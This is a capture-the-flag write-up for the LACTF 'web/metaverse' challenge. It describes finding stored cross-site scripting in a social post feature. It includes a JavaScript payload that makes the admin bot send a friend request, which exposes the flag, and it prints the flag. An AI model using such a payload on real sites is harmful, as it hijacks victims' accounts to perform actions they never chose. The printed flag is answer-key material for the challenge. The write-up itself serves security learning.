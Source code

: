 LACTF— web/metaverse
====================

![image](https://github.com/darkcheftar/write-ups/assets/54063851/cf96828c-c7fb-4dd8-94eb-67fdd3d34905)

LACTF

In [lactf](https://ctftime.org/event/1732) I was able to solve web/metaverse challenge.
![image](https://github.com/darkcheftar/write-ups/assets/54063851/028614b7-8dad-427b-9a75-653293027ca2)

![image](https://github.com/darkcheftar/write-ups/assets/54063851/ca8519b8-af74-49e0-8985-c9b4d70562ba)


Login page

![image](https://github.com/darkcheftar/write-ups/assets/54063851/1532d3a4-3583-48ca-9b61-25bf0296df0c)


Registering to service

[Here](https://gist.github.com/darkcheftar/a0746f59bacf8d8d491ad60ce0e45d22) is the source code provided 

From source code we can see that the flag is the display name of admin

And we can only see if admin adds us as a friend

![image](https://github.com/darkcheftar/write-ups/assets/54063851/b304f44c-123c-4110-8b0b-4a0265286ac8)


We can post using the below section

![image](https://github.com/darkcheftar/write-ups/assets/54063851/c310279e-0581-49b1-b20f-51d785bf578f)


If I try to add JavaScript to the post it executes

![image](https://github.com/darkcheftar/write-ups/assets/54063851/c53d23ac-4faa-4198-b4fe-a9744660f82f)

As we can see the we can add someone as a friend by making a post request

to /friend with our username

so we create a post with the below js payload
```js
fetch("/friend", 
{
     method: "POST", 
     body: "username=" + encodeURIComponent("darkcheftar"), 
     headers: { "Content-Type": "application/x-www-form-urlencoded" } 
}).then(e => e.text().then(t => { 
        if (200 !== e.status) { 
            document.querySelector(".error")?.remove(); 
            let r = document.createElement("p"); 
            r.innerText = t, 
            r.classList.add("error"), 
            document.body.insertAdjacentElement("afterbegin", r) 
        } 
        else location.reload() 
}))
```
by sharing the link to the admin bot he adds us as a friend.

now we can see the flag

![image](https://github.com/darkcheftar/write-ups/assets/54063851/5bba1152-f740-4ce8-936c-f2e1ae25f7df)


Finally the flag is:

> lactf{please\_metaget\_me\_out\_of\_here}
